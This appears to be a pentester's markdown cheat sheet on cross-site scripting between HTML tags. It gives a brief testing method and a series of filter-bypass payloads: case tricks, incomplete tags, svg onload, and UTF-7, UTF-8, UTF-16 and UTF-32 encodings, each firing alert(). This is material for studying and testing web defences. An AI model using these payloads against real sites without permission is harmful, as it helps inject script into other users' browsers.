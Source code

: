## XSS between HTML tags
 When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.

**EX**:
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### methodolgy 
- find reflected input between HTML tags
- try to insert a html tag if it is blocked
   - check if it WAF or Web Based Security  
   - try every possible tag you can use the help of [portswigger XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   - try [Bypass techniques](#bypass)
- make a poc 


### Bypass
i will focus on bypasses that introduce HTML tags


#### Bypass case sensitive

```html
<sCrIpt>alert(1)</ScRipt>
```

#### Bypass tag blacklist

```html
<script x>
<script x>alert('XSS')<script y>
```

#### Bypass with incomplete html tag
```html
<img src='1' onerror='alert(0)' <
```
#### Bypass ">" using nothing

```html
<svg onload=alert(1)//
```
#### Bypass using UTF-7
```html
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-  ===  <img src="1" onerror="alert(1)" />
```

#### Bypass using UTF-8
```html
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9

```

#### Bypass using UTF-16
```html
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00  ===  <svg/onload=alert()>

utf-16 encoded then url encoded 
```

#### Bypass using UTF-32
```html
%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E  ===  <svg/onload=alert()>

utf-32 encoded then url encoded 

```
